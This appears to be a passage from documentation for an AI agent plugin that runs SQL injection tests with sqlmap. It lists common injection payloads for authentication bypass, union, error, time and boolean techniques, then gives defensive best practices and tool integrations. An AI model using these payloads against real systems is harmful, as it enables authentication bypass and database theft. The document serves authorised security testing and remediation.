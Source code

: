 ### Common SQLi Payloads

The skill can test various SQL injection techniques:

**Authentication Bypass:**
```sql
' OR '1'='1' --
' OR '1'='1' /*
admin' --
' OR 1=1--
```

**Union-Based SQLi:**
```sql
' UNION SELECT NULL, NULL, NULL--
' UNION SELECT version(), database(), user()--
```

**Error-Based SQLi:**
```sql
' AND 1=CONVERT(int, (SELECT @@version))--
```

**Time-Based Blind SQLi:**
```sql
' AND (SELECT * FROM (SELECT(SLEEP(5)))a)--
'; WAITFOR DELAY '00:00:05'--
```

**Boolean-Based Blind SQLi:**
```sql
' AND '1'='1
' AND '1'='2
```

## Best Practices

- **Input Validation**: Always validate and sanitize user inputs to prevent malicious data from entering the system.
- **Parameterized Queries**: Utilize parameterized queries or prepared statements to prevent SQL injection attacks.
- **Least Privilege**: Grant database users only the necessary privileges to minimize the impact of a potential SQL injection attack.
- **Web Application Firewall**: Deploy WAF rules to detect and block SQL injection attempts.
- **Regular Testing**: Run sqlmap testing regularly, especially after code changes.
- **Rate Limiting**: Protect against brute-force SQLi attempts with rate limiting.

## Integration with Other Plugins

- **atlassian-mcp**: Create Jira tickets for each SQL injection finding with full exploitation details
- **gitlab-mcp**: Create merge requests with parameterized query fixes
- **serena**: Store SQL injection test results and track remediation over time
- **penetration-tester**: Comprehensive penetration testing including SQL injection
- **vulnerability-scanner**: Combine SAST and DAST for complete coverage
